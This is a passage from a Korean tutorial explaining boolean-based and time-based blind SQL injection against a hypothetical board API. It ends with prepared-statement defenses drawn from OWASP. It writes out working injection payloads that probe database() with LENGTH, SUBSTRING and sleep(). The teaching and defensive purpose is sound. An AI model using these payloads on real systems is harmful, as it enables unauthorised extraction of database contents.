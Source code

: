 ```sql
1 AND LENGTH(database())=1--+                (결과:거짓)
1 AND LENGTH(database())=2--+                (결과:거짓)
1 AND LENGTH(database())=3--+                (결과:참) <- 현재 DB의 이름의 길이는 3임
```

이후 한글자 한글자씩 비교하며 DB 이름의 각 자리가 무엇인지 확인합니다. 이때 `SUBSTRING()` 함수를 활용합니다.  

```sql
1 AND SUBSTRING(database(), 1, 1)='a'--+                (결과:거짓)
1 AND SUBSTRING(database(), 1, 1)='b'--+                (결과:거짓)
1 AND SUBSTRING(database(), 1, 1)='c'--+                (결과:참) <- 현재 DB의 이름의 첫 글자는 'c'임
```

이를 반복해 알아낸 각 자리의 문자들을 결합하면 DB의 이름을 알아낼 수 있습니다.  

##### 블라인드 시간 기반 SQL 인젝션(Blind Time-Based SQL Injection)
`블라인드 불린 기반 SQL 인젝션`은 `SQL 쿼리`의 `참/거짓`여부에 따른  `HTTP 응답 내용`, `상태 코드` 등의 차이가 존재를 `확인할 수 없지만`, 서버 응답 시간을 제어할 수 있을 경우 사용 가능한 공격 기법입니다.  
즉, 기존 `SQL 쿼리`에 `특정 조건`이 참일 경우 `응답을 지연시키는 함수`를 사용해 해당 조건의 참/거짓 여부를 판별하게 됩니다.  
응답 시간을 제어하는 함수는 DBMS별로 상이하며, 예시로 들 `MySQL`(및 `MariaDB`)의 경우 `sleep()` 함수를 사용합니다.  

###### 예시
위와 마찬가지로 게시판 애플리케이션에서 게시물 조회 API를 사용한다고 가정하겠습니다.  
이때 id로 `1 AND if(1=1, sleep(5), false)--` 와 같은 구문을 전달했을 때 기존 `SQL 쿼리`에 정상적으로 포함된다면, SQL문은 다음과 같게 됩니다.  

```sql
SELECT subject, content, author  
FROM board  
WHERE id=1 AND if(1=1, sleep(5), false)--
```

이때 if문이 동작하기 때문에 첫 번째 인자로 주어진 조건식인 `1=1`이 참이므로, 서버는 `5초간 대기` 상태에 있다가 응답하게 될 것입니다.  
이를 바탕으로 *불린 기반 공격 처럼*, 조건문에 `원하는 정보에 대한 조건`을 포함해 API 요청을 반복하므로써 원하는 정보를 알아낼 수 있습니다.  

```sql
1 AND if(LENGTH(database())=1, sleep(5), false)--+                (결과:거짓)
1 AND if(LENGTH(database())=2, sleep(5), false)--+                (결과:거짓)
1 AND if(LENGTH(database())=3, sleep(5), false)--+                (결과:참) <- 현재 DB의 이름의 길이는 3임
```

### 방어법 [#](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)
이러한 `SQL 인젝션`을 방지하기 위해서는 ① `문자열들을 연결`해 `동적 SQL 쿼리`를 `생성하지 않거나`, ② 실행된 쿼리에 `악성 SQL 입력`이 `포함되지 않도록` 해야 합니다.  

#### Prepared Statement 사용하기
`준비된 구문(Prepared Statement)`, 또는 `파라미터화 된 쿼리(Parameterized Query)`를 사용하게 되면 `동적 쿼리`보다 쿼리를 작성 및 이해하는데 쉬우며, 개발자가 먼저 SQL 쿼리를 정의한 뒤 이후에 각 매개변수들을 쿼리에 전달하도록 합니다.  
또한 DB 쿼리가 이러한 형태를 띄는 경우 DB는 사용자 입력에 상관없이 항상 코드와 데이터를 구분합니다. 그리고 공격자가 SQL 명령을 삽입해도 쿼리의 원래 의도를 변경할 수 없도록 보장합니다.  

```java
// 코드 예시

// 매개변수로 사용될 해당 인자는 꼭 검증하는 것이 좋습니다.
String custname = request.getParameter("customerName");
String query = "SELECT account_balance FROM user_data WHERE user_name = ? ";
PreparedStatement pstmt = connection.prepareStatement( query );
pstmt.setString( 1, custname);
ResultSet results = pstmt.executeQuery( );
```
